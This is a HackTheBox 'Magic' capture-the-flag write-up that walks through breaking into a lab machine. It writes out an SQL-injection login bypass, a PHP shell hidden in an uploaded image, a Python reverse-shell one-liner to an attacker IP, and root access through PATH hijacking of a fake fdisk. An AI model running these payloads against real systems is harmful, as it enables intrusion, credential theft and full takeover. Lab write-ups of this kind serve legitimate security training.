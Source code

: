 ```yaml
---
title: Magic Writeup
author: mooncakeza
date: 2020-04-20 11:30am
categories: [hackthebox]
tags: [hackthebox, writeup, magic]
math: true
image: /assets/img/htb/Magic/magic_infocard.png
---
```


### Let's do a NMAP scan

![dekstop](/assets/img/htb/Magic/01_nmap.png)


Browsing to http://10.10.10.185 we get a page with images and on the bottom left a login to upload images.


![dekstop](/assets/img/htb/Magic/02_login_message.png)


Let's click on the login link.


![dekstop](/assets/img/htb/Magic/03_login_blank.png)


I tried default top 10 usernames and passwords combos but nothing.

Since we have no credentials, we can try SQL injection

```
username: 'or '1'='1

password: 'or '1'='1
```

![dekstop](/assets/img/htb/Magic/04_login_sql.png)

We get prompted with an upload page for images.

![dekstop](/assets/img/htb/Magic/05_upload_img.png)

Let's see what can be uploaded. Let's just click upload.

![dekstop](/assets/img/htb/Magic/06_upload_img_error.png)

Only JPG, JPEG and PNG files are allowed. We need to bypass the filter.

Let's first upload a JPEG file and see where it saves it to.

When we upload a picture it adds it to the front page on the slider and so we can right click to view image and we can see it saves it under http://10.10.10.185/images/uploads/

Now let's do some magic

Take any JPG,JPEG or PNG inject it with some code and then rename the file.

![dekstop](/assets/img/htb/Magic/07_cmd_image_insert.png)

Upload this file via the upload page

In another terminal run nc -lvnp 9991

The only payload I found to work was the python method

Now point your browser or use curl to the following URL

http://10.10.10.185/images/uploads/lordcommander.php.jpeg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",9991));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

![dekstop](/assets/img/htb/Magic/08_img_rev_shell.png)

We have a shell!

Let's get an interactive shell

<ol><li>python -c 'import pty; pty.spawn("/bin/bash")'</li><li>ctrl + z (put's the nc into the background)</li><li>echo $TERM (this gets what your term is set as)</li><li>stty -a (this gets your windows size)</li><li>stty raw -echo (NOTE: you will not see any output after this)</li><li>fg (go back to the nc)</li><li>reset (this resets the terminal settings on the remote machine</li><li>In the Terminal type, type in the $TERM output you got, in my case it was xterm-256color. </li></ol>

NOTE: as of recent, this method I found has not been working as intended and sometimes hands the termminal. 

After enumerating a bit we get the following.

![dekstop](/assets/img/htb/Magic/09_db_details.png)

I tried to use the password to login via ssh and su but both failed.

This is not the password for the user.

Let's enumerate the database. There is no mysql client installed so the only way now is to do a mysqldump.

![dekstop](/assets/img/htb/Magic/10_db_dump.png)

We then find this in the dump.

![dekstop](/assets/img/htb/Magic/11_db_creds.png)

We have some creds. Password reuse?

Let us just su to the user with the password.

![dekstop](/assets/img/htb/Magic/12_user_login_png.png)

user flag achieved!

Now for root.

We first have to upload some enumerating scripts.

I uploaded both LinEnum and LinPEAS and found this pretty interesting:

![dekstop](/assets/img/htb/Magic/13_exec_files.png)

/bin/sysinfo is executable and the user group has permissions to run it.

There is another tool called pspy64 which monitors linux processes and we can use this to see what sysinfo does in the background. So we run /bin/sysinfo and monitor pspy64 and see the following.

![dekstop](/assets/img/htb/Magic/14_fdisk.png)

sysinfo calls a few files and seems like we can inject our own path to point to a custom created fdisk file to maybe create a reverse shell?

First in another terminal run our nc -lvnp 9994 

Back to the magic terminal and let us add /tmp into the system PATH

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin:/usr/games:/usr/local/games:/snap/bin:/tmp
```

We then create a file in /tmp with the following.

![dekstop](/assets/img/htb/Magic/15_python_shell.png)

Make it executable and then run /bin/sysinfo again and we watch pspy64.

![dekstop](/assets/img/htb/Magic/16_run_script.png)

You can see it has now executed our code from the fdisk file we created in the /tmp directory instead of the actual operating system's fdisk!

Let us pop to the terminal where we can our nc.

![dekstop](/assets/img/htb/Magic/17_shell_pop.png)

WE HAVE ROOT!
